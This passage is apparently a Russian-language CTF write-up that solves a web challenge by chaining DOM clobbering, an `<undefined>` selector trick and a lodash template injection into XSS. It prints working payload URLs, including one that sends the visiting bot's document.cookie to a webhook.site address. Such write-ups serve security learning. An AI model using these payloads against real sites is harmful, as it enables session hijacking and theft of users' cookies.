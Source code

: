 Но это работает только на один уровень, если внутри одного div сделать другой с id то иерархии не создатся.

Пошёл читать [спеку](https://html.spec.whatwg.org/multipage/forms.html#the-form-element) там нашлось что инпуты в форме тоже доступны по их id/name

<img width="1210" alt="Screenshot 2022-02-14 at 01 06 48" src="https://user-images.githubusercontent.com/154874/153777299-3cc6691e-6897-4b7c-ae4c-ca9296b584de.png">

Ок - делаем:
`https://gamebox.yactf.ru/?q[</script><iframe%20src=/404></iframe><form%20id=jsConf><input%20id=ui>]=1`
получаем:

<img width="604" alt="Screenshot 2022-02-14 at 01 12 58" src="https://user-images.githubusercontent.com/154874/153777489-fa0c9924-7d31-4595-917c-d57249351a7e.png">

Тут я очень долго читал спеку пытаясь придумать как определить уже errSelector но проиграл.
UPD: [оказывается можно](https://portswigger.net/research/dom-clobbering-strikes-back)

НО js же любит приводить всё к строкам, а undefined - вполне валидный css селектор, который выбирает элемент `<undefined>`

пробуем:
`https://gamebox.yactf.ru/?q[</script><iframe%20src=/404></iframe><form%20id=jsConf><input%20id=ui></form><undefined>omfg</undefined>]=1`

Иии в консоле появляется `omfg`!

дальше уже дело техники, берём примет эксплойта для lodash
```js
_.template("<%-);window.location='http://example.com/?q='+document.cookie//%>")
```
и вставляем его в наш `undefined`, и надо не забыть заурлэнкодить `%` - получается:
`https://gamebox.yactf.ru/?q[</script><form%20name=jsConf><input%20name=ui></form><iframe%20src=/omg></iframe><undefined><%25-);window.location=%27https://webhook.site/4ea69c1e-80e3-4c8d-b8a5-3227af2f0a1e?q=%27%2Bdocument.cookie//%25></undefined>]=1`

скармливаем этот урл боту - и вуаля:

<img width="593" alt="Screenshot 2022-02-14 at 01 25 46" src="https://user-images.githubusercontent.com/154874/153777936-ccb86689-a6ba-4941-a8ad-dc317821b070.png">


